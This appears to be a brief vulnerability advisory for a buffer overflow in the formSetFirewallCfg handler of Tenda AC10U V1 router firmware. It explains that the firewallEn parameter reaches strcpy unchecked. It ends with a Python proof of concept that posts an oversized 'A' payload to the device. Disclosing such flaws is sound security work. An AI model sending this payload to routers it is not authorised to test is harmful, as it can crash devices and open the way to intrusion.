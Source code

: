 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](14.png)

get value from firewallEn, then call strcpy, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/formSetFirewallCfg"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
